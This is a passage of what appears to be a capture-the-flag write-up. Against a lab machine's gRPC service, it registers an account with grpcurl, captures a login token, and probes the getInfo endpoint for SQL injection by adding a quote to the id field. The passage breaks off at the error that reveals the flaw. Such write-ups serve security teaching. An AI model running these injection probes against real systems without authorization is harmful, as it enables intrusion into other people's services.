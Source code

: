 ## Shell as sau

### Resets

The accounts on the app seem to reset every 10 minutes. It's very
annoying. I created one line that I could up-arrow to and re-run that
will create a user and login twice. On the first login, it captures the
token and exports that as an environment variable. On the second, it
prints to the screen the new account's user id:



    grpcurl -d 'username: "0xdf", password: "0xdf0xdf"' -plaintext -format text 10.10.11.214:50051 SimpleApp.RegisterUser; export TOKEN=$(grpcurl -v -plaintext -format text -d 'username: "0xdf", password: "0xdf0xdf"' 10.10.11.214:50051 SimpleApp.LoginUser | grep token | cut -d"'" -f2); grpcurl -v -plaintext -format text -d 'username: "0xdf", password: "0xdf0xdf"' 10.10.11.214:50051 SimpleApp.LoginUser | grep message



It runs like:



    oxdf@hacky$ grpcurl -d 'username: "0xdf", password: "0xdf0xdf"' -plaintext -format text 10.10.11.214:50051 SimpleApp.RegisterUser; export TOKEN=$(grpcurl -v -plaintext -format text -d 'username: "0xdf", password: "0xdf0xdf"' 10.10.11.214:50051 SimpleApp.LoginUser | grep token | cut -d"'" -f2); grpcurl -v -plaintext -format text -d 'username: "0xdf", password: "0xdf0xdf"' 10.10.11.214:50051 SimpleApp.LoginUser | grep message
    message: "Account created for user 0xdf!"
    message: "Your id is 250."



After running that I can use `$TOKEN` to query:



    oxdf@hacky$ grpcurl -d 'id: "320"' -H "token: $TOKEN" -plaintext -format text 10.10.11.214:50051 SimpleApp.getInfo
    message: "Will update soon."



### Identify SQL Injection

I'll try some different payloads to see what happens. Adding a `'` seems
to break it:



    oxdf@hacky$ grpcurl -d "id: \"320\"" -H "token: $TOKEN" -plaintext -format text 10.10.11.214:50051 SimpleApp.getInfo
    message: "Will update soon."
    oxdf@hacky$ grpcurl -d "id: \"320'\"" -H "token: $TOKEN" -plaintext -format text 10.10.11.214:50051 SimpleApp.getInfo
    ERROR:
      Code: Unknown
      Message: Unexpected <class 'TypeError'>: bad argument type for built-in operation
